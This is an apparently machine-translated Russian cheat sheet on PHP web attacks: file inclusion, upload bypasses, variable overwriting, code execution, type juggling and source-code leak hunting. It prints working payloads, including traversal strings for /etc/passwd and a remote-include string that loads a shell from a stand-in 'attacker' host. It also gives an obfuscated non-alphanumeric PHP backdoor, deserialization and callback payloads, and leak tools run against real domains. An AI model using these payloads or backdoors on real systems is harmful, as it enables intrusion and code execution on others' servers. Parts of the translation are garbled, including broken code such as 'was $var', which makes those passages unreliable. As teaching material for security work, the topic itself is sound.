

[RU](./php.md) | [EN](./php-en.md)

## Файл содержит

Общие функции, которые вызывают включение файлов:

- PHP：`include()`，`include_once()`，`require()`，`require_once()`，`fopen()`，`readfile()`
- JSP Servlet ： `ava.io.File ()` ， `java.io.FileReader ()`
- ASP：`includefile`，`includevirtual`

Когда PHP включает файл, он будет выполняться как код PHP, независимо от типа файла.

### Локальный файл содержит

Локальный файл содержит включение локального файла, LFI.

```php

<?php
    $file = $_GET['file'];
    if (file_exists('/home/wwwrun/'.$file.'.php')) {
        include '/home/wwwrun/'.$file.'.php';
    }
?>

```

В приведенном выше коде содержится локальный файл, а содержимое файла `/etc/passwd` можно прочитать, усекая %00.

- `%00` усечение

```

?file=../../../../../../../../../etc/passwd%00

```

Требуется `magic_quotes_gpc=off`, PHP менее 5.3.4.

- Усечение длины пути

```

?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.

```

Linux требует, чтобы имя файла было длиннее 4096, а Windows должно быть длиннее 256.

- Усечение числа точек

```

?file = ... / ... // ... // ... // ... / / boot.ini/ ……… [...] …………

```

Только для Windows количество точек должно быть больше 256.

### Удаленный файл содержит

Удаленный файл содержит Remote File Inclusion, RFI.

```php

<?php
    if ($route == "share") {
      require_once $basePath . "/action/m_share.php";
    } elseif ($route == "sharelink") {
      require_once $basePath . "/action/m_sharelink.php";
    }
?>

```

Создает значение переменнойe `basePath`.

```

/?basePath=http://attacker/phpshell.txt?

```

Заключительный код выполнен

```php

require_once "http://attacker/phpshell.txt?/action/m_share.php";

```

Часть после вопросительного знака интерпретируется как строка запроса URL-адреса, что также является своего рода «усечением».

- Обычный удаленный файл содержит

```

?file=[http|https|ftp]://example.com/shell.txt

```

Необходимо `allow_url_fopen=On` и `allow_url_include=On`.

- Использовать ввод потока PHP

```

?file=php://input

```

Необходимо `allow_url_include=On`.

- Использовать фильтр потока PHP

```

?file=php://filter/convert.base64-encode/resource=index.php

```

Необходимо `allow_url_include=On`.

- Использовать URI данных

```

?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=

```

Необходимо `allow_url_include=On`.

- Выполнить с XSS

```

?file=http://127.0.0.1/path/xss.php?xss=phpcode

```

Необходимо `allow_url_fopen=On`, `allow_url_include=On` и брандмауэру или белому списку не разрешен доступ к внешней сети, сначала найдите уязвимость XSS на том же сайте, включая эту страницу, вы можете ввести вредоносный код.

## File Upload

Уязвимость при загрузке файла возникает, когда пользователь загружает исполняемый файл сценария и получает возможность выполнять команды на стороне сервера через этот файл. В большинстве случаев уязвимости загрузки файлов обычно связаны с проблемой загрузки веб-сценария, который может быть проанализирован сервером, так называемой проблемы веб-оболочки. Для завершения этой атаки требуется несколько условий. Во-первых, загруженный файл может быть выполнен WEB-контейнером. Во-вторых, пользователь может получить доступ к файлу из WEB. Наконец, если загруженный файл был изменен проверкой безопасности, форматированием, сжатием изображения и тд. Содержимое может привести к сбою атаки.

### Обход проверки загрузки

- Расширение для проверки передней части

Захватите пакет и обойдите его.

- Тип файла обнаружения `Content-Type`

Захватите пакет, чтобы изменить тип `Content-Type` в соответствии с правилами белого списка.

- Добавить суффикс к серверу

Попробуйте усечение %00.

- Обнаружение расширения сервера

Воспользуйтесь уязвимостью.

- Парсинг Apache

`phpshell.php.rar.rar.rar.rar` Поскольку Apache не знает `.rar` этого типа файла, он перейдет через суффикс к `.php`, а затем подумает, что это файл PHP.

- Разбор IIS

Если имя файла - `abc.asp;xx.jpg` в IIS 6, он будет проанализирован как `abc.asp`.

- Разрешение пути PHP CGI

Когда вы посещаете `http://www.a.com/path/test.jpg/notexist.php`, `test.jpg` будет проанализирован как PHP, а `notexist.php` - несуществующий файл. На данный момент конфигурация Nginx следующая

```nginx

location ~ \.php$ {
    root html;
    fastcgi_pass 127.0.0.1:9000;
    fastcgi_index index.php;
    fastcgi_param SCRIPT_FILENAME /scripts$fastcgi_script_name;
    include fastcgi_param;
}

```

- другие методы

Регистр суффикса, двойная запись, специальный суффикс, такой как `php5` и тд, Изменяют содержимое пакета в WAF и тд.

## Переменный охват

### Переопределение глобальной переменной

Неинициализированные переменные, которые могут контролироваться пользователем, могут вызвать проблемы с безопасностью.

```text

register_globals = ON

```

пример

```php

<?php
    echo "Register_globals" . (int)ini_get("register_globals") . "<br/>";
    if ($auth) {
        echo "private!";
    }
?>

```

Когда `register_globals=ON`, отправьте `test.php?auth=1`, автоматически будет назначена переменная `auth`.

### `extract()` переопределение переменной

Функция `extract()` может импортировать переменные из массива в текущую таблицу символов, которая определяется как

```

int extract(array $var_array [, int $extract_type [, string $prefix ]] )

```

Второй параметр определяет поведение функции при ее импорте в таблицу символов. Два наиболее распространенных значения - `EXTR_OVERWRITE` и `EXTR_SKIP`.

Если значение равно `EXTR_OVERWRITE`, в процессе импорта переменных в таблицу символов, если имя переменной конфликтует, все переменные перезаписываются; значение `EXTR_SKIP` означает пропуск без перезаписи. Если второй параметр не указан, по умолчанию используется `EXTR_OVERWRITE`.

```php

<?php
    $auth = "0";
    extract($_GET);
    if ($auth == 1) {
        echo "private!";
    } else {
        echo "public!";
    }
?>

```

Покрытие переменных может возникнуть, когда функция `extract()` экспортирует переменные из массива, которым может управлять пользователь.

### `import_request_variables` Переопределение переменной

```

bool import_request_variables(string $types [, string $prefix])

```

`import_request_variables` Импортирует переменные из GET, POST и файлов cookie в глобальный. Используйте эту функцию, чтобы просто указать тип.

```php

<?php
    $auth = "0";
    import_request_variables("G");
    if ($auth == 1) {
        echo "private!";
    } else {
        echo "public!";
    }
?>

```

`import_request_variables("G")` указывает переменные, которые будут импортированы в запрос GET, и отправляет тестовое покрытие `test.php?auth=1`.

### `parse_str()` переопределение переменной

```

void parse_str(string $str [, array &$arr ])

```
Функция `parse_str()` обычно используется для синтаксического анализа строки запроса в URL-адресе, но когда значение параметра может контролироваться пользователем, это может вызвать покрытие переменных.

```php

//var.php?var=new variable override
$var = "init";
parse_str($_SERVER["QUERY_STRING"]);
print $var;

```

Функции, подобные `parse_str()`, также имеют `mb_parse_str()`.

## Выполнение команды

### Код прямого исполнения

В PHP есть довольно много функций, которые могут выполнять код напрямую.

```php

eval();
assert();
system();
exec();
shell_exec();
passthru();
escapeshellcmd();
pcntl_exec();
......

```

### `preg_replace()` Выполнение кода

Первый аргумент `preg_replace()` разрешает выполнение кода, если присутствует модификатор режима `/e`.

```php

<?php
    $var = "<tag>phpinfo()</tag>";
    preg_replace("/<tag>(.*?)</tag>/e", "addslashes(1)", $var);
?>

```

Если у вас нет модификатора `/e`, вы можете попробовать усечение %00.

### `preg_match` Выполнение кода

`preg_match` выполняет сопоставление регулярного выражения, позволяя выполнить код в случае успешного сопоставления.

```

<?php
    include 'flag.php';
    if(isset($_GET['code'])){
        $code = $_GET['code'];
        if(strlen($code)>40){
            die("Long.");
        }
        if(preg_match("/[A-Za-z0-9]+/", $code)){
            die("NO.");
        }
        @eval($code);
    }else{
        highlight_file(__FILE__);
    }
    //$hint =  "php function getFlag() to get flag";
?>

```

Этот вопрос - вопрос от мастера сливового вина во время тренировки `xman`. Эта серия описаний кода выглядит так. Мы хотим обойти передачу обычных чисел и буквенных строк, таких как `AZ`, `az`, `0–9`, и преобразовать не буквенно-цифровые символы в различные преобразования. Можно создать любой символ в `az`, а длина строки меньше `40`. Затем используйте `PHP`, чтобы разрешить динамические функции выполнения функций, сшить имя функции, здесь мы `getFlag`, а затем динамически выполнить код.

Итак, вопрос, который нам нужно рассмотреть, заключается в том, как передавать различные преобразования, чтобы мы могли успешно прочитать функцию `getFlag` и получить `веб-оболочку`.

Прежде чем мы это поймем, нам сначала нужно понять концепцию XOR `^` в `PHP`.

Давайте посмотрим на следующий код:

```

<?php
    echo "A" ^ "?";
?>

```


Мы видим, что на выходе получается символ `~`. Причина этого в том, что код `A` и символ `?` выполняются XOR в коде. В `PHP`, когда две переменные подвергаются операции XOR, строка сначала преобразуется в значение `ASCII`, затем значение `ASCII` преобразуется в двоичное, а затем выполняется операция XOR, выполняется операция XOR, а результат преобразуется из двоичного. Станьте значением `ASCII` и преобразуйте значение `ASCII` в строку. Операции XOR также иногда используются для обмена значениями двух переменных.

Как в примере выше

Значение `ASCII` для `A` - `65`, а соответствующее двоичное значение - `01000001`.

Значение ASCII `?` равно `63`, а соответствующее двоичное значение - `00111111`.

Значение двоичного кода исключающего ИЛИ - `01111110`, соответствующее значение `ASCII` - `126`, а соответствующее строковое значение - `~`.

Все мы знаем, что `PHP` - это слабо типизированный язык, то есть в `PHP` мы можем объявить переменную напрямую и инициализировать или присвоить ее, не объявляя тип переменной. Именно из-за слабого типа `PHP` мы неявно конвертируем переменный тип `PHP` и используем эту возможность для выполнения некоторых нетрадиционных операций. Если вы преобразовываете целое число в строку, обрабатываете логическое значение как целое число или обрабатываете строку как функцию, давайте посмотрим на фрагмент кода:

```

<?php
    function B(){
        echo "Hello Angel_Kitty";
    }
    $_++;
    $__= "?" ^ "}";
    $__();
?>

```


Давайте вместе проанализируем приведенный выше код:

1. `$_++; ` Эта строка кода означает увеличение переменной с именем `"_"`, значения по умолчанию переменной undefined в `PHP` `null`, `null == False == 0`, мы можем получить число, автоматически увеличивая неопределенную переменную без использования каких-либо чисел.
2. `$__= "?" ^ "}";` XOR персонажей `?` and `}` и получите результат `B`, присвоенный переменной с именем `__` (два символа подчеркивания)
3. `$__(); ` Благодаря вышеуказанной операции присваивания значение переменной `$__` равно `B`, поэтому эту строку можно рассматривать как `B()`. В `PHP` эта строка кода представляет, что функция `B` вызывается, поэтому результат - `Hello Angel_Kitty`. В `PHP` мы можем рассматривать строки как функции.

Видя это, я считаю, что если вы видите похожий бэкдор `PHP`, не стоит так запутываться. Вы можете использовать анализ предложений кода бэкдора, чтобы понять, какие функции бэкдор хочет выполнять.

Мы хотим использовать этот бэкдор для создания строк, которые обходят обнаружение и полезны для нас, таких как `_POST`, `system`, `call_user_func_array` или все, что нам нужно.

Вот очень простой не буквенно-цифровой бэкдор `PHP`:

```

<?php
    @$_++; // $_ = 1
    $__ = ("#" ^ "|"); // $__ = _
    $__ .= ("." ^ "~"); // _P
    $__ .= ("/" ^ "`"); // _PO
    $__ .= ("|" ^ "/"); // _POS
    $__ .= ("{" ^ "/"); // _POST 
    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>

```

Здесь я объясняю, `.=` - это строковое соединение, подробности см. в синтаксисе `PHP`.

Мы даже можем объединить приведенный выше код в одну строку, сделав программу менее читаемой, код выглядит следующим образом:

```

$__ = ("#" ^ "|") . ("." ^ "~") . ("/" ^ "`") . ("|" ^ "/") . ("{" ^ "/");

```

Оглядываясь назад на вопрос об обучении `xman`, наша идея состоит в том, чтобы обойти строку символов, построив XOR, так как же нам построить эту строку так, чтобы длина была меньше `40`?

Наконец, мы хотим прочитать функцию `getFlag`, нам нужно создать `_GET` для чтения этой функции, мы, наконец, создаем следующую строку:



Возможно, многие мелкие партнеры до сих пор не могут понять, как устроена эта цепочка. Разберем строку сегмента.

#### Построить `_GET` Читать
Прежде всего, мы должны знать, что такое `X_GET` от XOR. После своих попыток и анализа я пришел к следующему выводу:

```

<?php
    echo "`{{{" ^ "?<>/"; //_GET
?>

```

В чем смысл этого кода? Из-за ограничения длины в 40 символов веб-оболочки, которые ранее были соединены операцией XOR с символами, использовать нельзя. 
Здесь вы можете использовать обратные кавычки `` ` `` и `Linux` под php php для выполнения команды `?`

- `?` означает соответствие одного символа
- `` ` означает выполнение команды
- `` ` Разбор специальной строки

Поскольку `?` может соответствовать только одному символу, этот способ записи означает зацикливание и сопоставление. Мы разберем его, чтобы увидеть:

```

<?php
    echo "{" ^ "<";
?>

```


```

<?php
    echo "{" ^ ">";
?>

```


```

<?php
    echo "{" ^ "/";
?>

```


Итак, мы можем знать, что `_GET` устроен следующим образом!

#### Получить параметр `_GET`

Как нам получить параметр `_GET`? Мы можем построить следующую строку:

```

<?php
    echo ${$_}[_](${$_}[__]); //$_GET[_]($_GET[__])
?>

```

Согласно предыдущей конструкции `$_` превратилось в `_GET`. Естественно, `$_ = _GET`. Мы создали `$_GET[__]` для получения значений параметров.

#### Входящие параметры

На этом этапе нам просто нужно вызвать функцию `getFlag`, чтобы получить `веб-оболочку`, построенную следующим образом:

```

<?php
    echo $_ = getFlag; //getFlag
?>

```

Итак, подключите все параметры, и все готово.


Результаты приведены ниже:


Итак, мы успешно прочитали флаг!

### Динамическое выполнение функции

Пользовательские функции могут привести к выполнению кода.

```php

<?php
    $dyn_func = $_GET["dyn_func"];
    $argument = $_GET["argument"];
    $dyn_func($argument);
?>

```

### Выполнение команды обратной кавычки

```php

<?php
    echo `ls -la`;
?>

```

### Фигурный синтаксис

Фигурный синтаксис PHP также может привести к выполнению кода, он выполнит код, заключенный в фигурные скобки, и заменит результаты.

```php

<?php
    $var = "aaabbbccc${`ls`}";
?>

```

```php

<?php
    $foobar = "phpinfo";
    ${"foobar"}();
?>

```

### функция обратного вызова

Многие функции могут выполнять функции обратного вызова, что вызовет выполнение кода, когда функция обратного вызова управляется пользователем.

```php

<?php
    $evil_callback = $_GET["callback"];
    $some_array = array(0,1,2,3);
    $new_array = array_map($evil_callback, $some_array);
?>

```

Полезная нагрузка атаки

```

http://www.a.com/index.php?callback=phpinfo

```

### Десериализация

Если `unserialize()` определяет функцию `__destruct()` или `__wakeup()` во время выполнения, это может вызвать выполнение кода.

```php

<?php
    class Example {
    was $var = "";
      function __destruct() {
        eval($this->var);
      }
    }
    unserialize($_GET["saved_code"]);
?>

```

Полезная нагрузка атаки

```

http://www.a.com/index.php?saved_code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}

```

## PHP Особенности

### Массив

```php

<?php
    $var = 1;
    $var = array();
    $var = "string";
?>

```

Php не строго проверяет типы входящих переменных и не может свободно преобразовывать типы.

Например, при сравнении `$a == $b`

```php

$a = null; 
$b = false; // is true
$a = ''; 
$b = 0; //also true

```

Тем не менее, разработчики ядра PHP изначально хотели позволить программистам более эффективно развиваться с этой системой, которая не требует деклараций, поэтому многие слабо используемые сравнения и преобразования использовались почти во всех встроенных функциях и базовых структурах, чтобы предотвратить использование программ. . Переменные часто сообщаются неправильно из-за неправильности программиста, но это создает проблемы с безопасностью.

```php

0 == '0' //true
0 == 'abcdefg' //true
0 === 'abcdefg' //false
1 == '1abcdef' //true

```

### Волшебный хеш

```php

"0e132456789" == "0e7124511451155" //true
"0e123456abc" == "0e1dddada" //false
"0e1abc" == "0"  //true

```

Если при выполнении операции сравнения встречается такая строка, как `0e\d+`, она анализируется в экспоненциальном представлении. Таким образом, значения двух чисел в приведенном выше примере равны 0 и, следовательно, равны. Если шаблон `0e\d+` не выполняется, он не будет равным.

### шестнадцатеричное преобразование

```php

"0x1e240" == "123456" //true
"0x1e240" == 123456 //true
"0x1e240" == "1e240" //false

```

Когда одна из строк начинается с `0x`, PHP разбирает строку в десятичную дробь и затем сравнивает ее. Разбор `0x1240` в десятичный формат равен 123456, поэтому с типом `int` и типом `string` 123456 сравнения одинаковы.

### Преобразование типов

Общие преобразования в основном преобразуются `int` в `string`, а `string` в `int`.

`string` в `int`

```php

$var = 5;
Method 1: $item = (string)$var;
Method 2: $item = strval($var);

```

`string` превращает функцию `int`:`intval()`.

Для этой функции вы можете сначала взглянуть на 2 примера.

```php

var_dump(intval('2')) // 2
var_dump(intval('3abcd')) // 3
var_dump(intval('abcd')) // 0

```

Если указано преобразование `intval()`, оно будет преобразовано с начала строки, чтобы знать, что встречен нечисловой символ. Даже если есть строка, которую невозможно преобразовать, `intval()` не сообщит об ошибке, а вернет 0.

В то же время программистам не следует использовать при программировании следующий код:

```php

if(intval($a)>1000) {
    mysql_query("select * from news where id=".$a)
}

```

В настоящее время значение `$a` может быть равно `1002 union`.

### Свободность параметров встроенных функций

Слабость встроенной функции заключается в том, что при вызове функции она передается в тип функции, который функция не может принять. Кратко объясните, или прямо на реальных примерах, чтобы проиллюстрировать проблему, следующее будет сосредоточено на некоторых из этих функций.

**md5()**

```php

$array1[] = array(
    "foo" => "bar",
    "bar" => "foo",
);
$array2 = array("foo", "bar", "hello", "world");
var_dump(md5($array1) == md5($array2)); //threaten

```

Описание функции md5() в руководстве по PHP - `string md5(string $str [, bool $raw_output = false ])`, а требование в `md5()` - параметр строкового типа. Но когда вы передаете массив, `md5()` не будет сообщать об ошибке, но не сможет правильно найти значение md5 массива, что приведет к равенству значений md5 любых двух массивов.

**strcmp()**

Функция `strcmp()` описана в официальном руководстве по PHP как `intstrcmp(string $str1 , string $str2)`, которому необходимо передать 2 аргумента типа `string` в `strcmp()`. Если `str1` меньше `str2`, он возвращает -1, а равенство возвращает 0, в противном случае он возвращает 1. Суть функции `strcmp()` для сравнения строк заключается в преобразовании двух переменных в ASCII, затем выполнении вычитания и определении возвращаемое значение в зависимости от результата операции.

Что, если аргумент, который дает `strcmp()`, является числом?

```php

$array = [1,2,3];
var_dump(strcmp($array, '123')); //null, in a sense null is equivalent to false.

```

**switch()**

Если switch () имеет числовой тип, switch преобразует параметры в int. следующим образом:

```php

$i = "2abc";
switch($i) {
    case 0:
    case 1:
    case 2:
        echo "i is less than 3 but not negative";
        break;
    case 3:
        echo "i is 3";
}

```

В это время программа выводит `i меньше 3, но не отрицательное`, потому что функция `switch()` преобразует `$i`, и результат равен 2.

**in_array()**

В руководстве по PHP функция `in_array()` интерпретируется как `bool in_array(mixed $needle , array $haystack [, bool $strict = FALSE ])`. Если параметр strict не указан, `in_array` будет свободным. Сравните, чтобы увидеть, находится ли `$needle` в `$haystack`. Когда значение strict истинно, `in_array()` сравнивает тип игл с типом в стоге сена.

```php

$array = [0, 1, 2, '3'];
var_dump(in_array('abc', $array)); //true
var_dump(in_array('1bc', $array)); //true

```

Вы можете видеть, что в приведенном выше случае возвращается true, потому что `'abc'` будет преобразовано в 0, а `'1bc'` будет преобразовано в 1.

`array_search()` аналогичен `in_array()`.

## Ищем резервную копию исходного кода

### hg Утечка исходного кода

`hg` файлы генерируются, когда `hg init`.

[Использование инструмента dvcs-ripper](<https://github.com/kost/dvcs-ripper>)

### Утечки исходного кода Git

Каталог `.git` содержит такие файлы, как записи об изменении кода. Если файлы в этом каталоге доступны при развертывании, их можно использовать для восстановления исходного кода.

```

/.git
/.git/HEAD
/.git/index
/.git/config
/.git/description

```

[GitHack](<https://github.com/lijiejie/GitHack>)

```shell

python GitHack.py http://www.openssl.org/.git/

```

[GitHacker (Восстанавливаемый полный репозиторий Git)](<https://github.com/WangYihang/GitHacker>)

```shell

python GitHacker.py http://www.openssl.org/.git/

```

### `.DS_Store` Утечка файла

Mac OS будет содержать файл `.DS_Store`, содержащий такую ​​информацию, как имя файла.

[Используя инструмент ds_store_exp](<https://github.com/lijiejie/ds_store_exp>)

```shell

python ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store

hd.zj.qq.com/
└── themes
    └── galaxyw
        ├── app
        │   └── css
        │       └── style.min.css
        ├── cityData.min.js
        ├── images
        │   └── img
        │       ├── bg-hd.png
        │       ├── bg-item-activity.png
        │       ├── bg-masker-pop.png
        │       ├── btn-bm.png
        │       ├── btn-login-qq.png
        │       ├── btn-login-wx.png
        │       ├── ico-add-pic.png
        │       ├── ico-address.png
        │       ├── ico-bm.png
        │       ├── ico-duration-time.png
        │       ├── ico-pop-close.png
        │       ├── ico-right-top-delete.png
        │       ├── page-login-hd.png
        │       ├── pic-masker.png
        │       └── ticket-selected.png
        └── member
            ├── assets
            │   ├── css
            │   │   ├── ace-reset.css
            │   │   └── antd.css
            │   └── lib
            │       ├── cityData.min.js
            │       └── ueditor
            │           ├── index.html
            │           ├── lang
            │           │   └── zh-cn
            │           │       ├── images
            │           │       │   ├── copy.png
            │           │       │   ├── localimage.png
            │           │       │   ├── music.png
            │           │       │   └── upload.png
            │           │       └── zh-cn.js
            │           ├── php
            │           │   ├── action_crawler.php
            │           │   ├── action_list.php
            │           │   ├── action_upload.php
            │           │   ├── config.json
            │           │   ├── controller.php
            │           │   └── Uploader.class.php
            │           ├── ueditor.all.js
            │           ├── ueditor.all.min.js
            │           ├── ueditor.config.js
            │           ├── ueditor.parse.js
            │           └── ueditor.parse.min.js
            └── static
                ├── css
                │   └── page.css
                ├── img
                │   ├── bg-table-title.png
                │   ├── bg-tab-say.png
                │   ├── ico-black-disabled.png
                │   ├── ico-black-enabled.png
                │   ├── ico-coorption-person.png
                │   ├── ico-miss-person.png
                │   ├── ico-mr-person.png
                │   ├── ico-white-disabled.png
                │   └── ico-white-enabled.png
                └── scripts
                    ├── js
                    └── lib
                        └── jquery.min.js

21 directories, 48 files

```

### Файл резервной копии веб-сайта

Администратор неправильно разместил резервную копию в веб-каталоге после резервного копирования файла веб-сайта.

Общие суффиксы:

```

.rar
.zip
.7z
.tar
.tar.gz
.behind
.txt

```

### Утечка SVN

Конфиденциальные документы:

```

/.svn
/.svn/wc.db
/.svn/entries

```

[dvcs-ripper](<https://github.com/kost/dvcs-ripper>)

```shell

perl rip-svn.pl -v -u http://www.example.com/.svn/

```

[Seay - SVN](<http://tools.40huo.cn/#!web.md# source leak>)

### Утечка WEB-INF / web.xml

WEB-INF - это безопасный каталог для веб-приложений Java, и в web.xml есть сопоставления файлов.

WEB-INF в основном содержит следующие файлы или каталоги:

- `/WEB-INF/web.xml`: файл конфигурации веб-приложения, описывающий сервлет и другие правила настройки и именования компонентов приложения.
- `/WEB-INF/classes/`: содержит все файлы классов, используемые сайтом, включая класс сервлетов и класс не сервлетов, их нельзя включить. В файле jar.
- `/WEB-INF/lib/`: хранит различные файлы jar, необходимые веб-приложению, и размещает файлы jar, которые требуются только в этом приложении, например файлы jar драйвера базы данных.
- `/WEB-INF/src/`: исходный каталог, каждый файл java размещается в соответствии со структурой имени пакета.
- `/WEB-INF/database.properties`: файл конфигурации базы данных.

После нахождения файла web.xml, определения пути к файлу класса и, наконец, непосредственной классификации файла, исходный код веб-сайта получается путем декомпиляции файла класса. В общем, движку jsp по умолчанию запрещен доступ к каталогу WEB-INF. Когда Nginx работает с Tomcat для балансировки нагрузки или кластера, причина проблемы на самом деле очень проста. Nginx не будет рассматривать настройку движков других типов (Nginx не является движком jsp). Проблема безопасности вводится в его собственную спецификацию безопасности (так что связь слишком высока), можно изменить файл конфигурации Nginx для блокировки доступа к каталогу WEB-INF:

```nginx

Location ~ ^/WEB-INF/* { deny all; } # or return 404; or other!

```

### Утечка CVS

```

Http://url/CVS/Root returns the root information
Http://url/CVS/Entries returns the structure of all files

```

Получить исходный код

```shell

bk clone http://url/name dir

```

### Рекомендации

- [Помните яму, на которую наступила веб-оболочка (как написать бэкдор, не содержащий цифр и букв в PHP)](<https://www.cnblogs.com/ECJTUACM-873284962/p/9433641.html>)